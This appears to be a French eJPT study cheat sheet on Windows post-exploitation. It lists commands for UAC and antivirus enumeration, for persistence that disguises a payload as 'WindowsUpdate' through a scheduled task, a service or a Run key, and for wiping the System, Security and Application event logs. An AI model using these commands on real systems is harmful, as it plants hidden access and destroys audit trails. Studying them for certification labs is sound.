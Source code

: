 ### UAC (User Account Control)
| Commande | Description |
|----------|-------------|
| `reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System` | Statut UAC |
| `whoami /groups \| find "High Mandatory Level"` | Vérifier niveau d'intégrité |

### Antivirus et EDR
| Commande | Description |
|----------|-------------|
| `wmic /namespace:\\root\securitycenter2 path antivirusproduct` | Antivirus installés |
| `sc query windefend` | Windows Defender |
| `netsh advfirewall show allprofiles` | État firewall |

---

## 🔧 9. Post-exploitation

### Persistence
| Technique | Commande |
|-----------|----------|
| **Tâche planifiée** | `schtasks /create /tn "WindowsUpdate" /tr "C:\temp\payload.exe" /sc onlogon /ru System` |
| **Service** | `sc create "WindowsUpdate" binPath= "C:\temp\payload.exe"` |
| **Registre Run** | `reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "WindowsUpdate" /t REG_SZ /d "C:\temp\payload.exe"` |

### Nettoyage des traces
| Commande | Description |
|----------|-------------|
| `wevtutil cl System` | Effacer logs système |
| `wevtutil cl Security` | Effacer logs sécurité |
| `wevtutil cl Application` | Effacer logs application |

---

## 💡 10. Conseils pour l'eJPT

### Workflow recommandé
1. **Énumération manuelle** → `whoami`, `systeminfo`, `net user`
2. **Script automatisé** → PrivescCheck.ps1 ou WinPEAS
3. **Recherche d'exploits** → Selon version Windows
4. **Test credentials** → Registry, fichiers config
5. **Exploitation** → runas, PsExec, ou exploit kernel
6. **Persistence** → Si nécessaire pour le lab
